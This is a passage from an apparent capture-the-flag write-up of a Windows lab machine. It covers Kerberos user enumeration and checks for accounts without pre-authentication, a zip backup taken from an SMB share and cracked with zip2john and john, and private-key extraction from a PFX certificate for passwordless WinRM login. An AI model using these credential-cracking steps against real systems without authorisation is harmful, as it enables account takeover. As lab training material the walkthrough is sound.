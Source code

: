 ```
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

```
Results:
User guest doesn't have UF_DONT_REQUIRE_PREAUTH set
User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
```

I originally had issues accessing the SMB shares. However, after trying it again, I was able to access the "Shares" share and I obtained several files download to analyze offline.

I realized the downloaded /Dev/winrm\_[backup.zip](http://backup.zip) could not be extracted as it was password protected. I used zip2john and john to crack this quickly.:

```
zip2john Dev/winrm_backup.zip > hashes.txt

The ^ above ^ command produced a hashes.txt file which contained the file's hash.
```

Then I cracked that hash file with:

```
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2023-03-27 19:27) 5.882g/s 20431Kp/s 20431Kc/s 20431KC/s suzyqzb..superkebab
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

_The output is a_ **_PFX_** _file which contains an SSL certificate in PKCS#12 format and a private key. PFX_
_files can be used by WinRM in order to login without a password. Let's extract them from the file._

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
```
However, when attempting to extract the necessary creds from this file, I need another password.:

```
─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
Enter Import Password:
```

To crack this next file, I need to use **_pfx2john_**:
```
pfx2john legacyy_dev_auth.pfx > test.txt
```
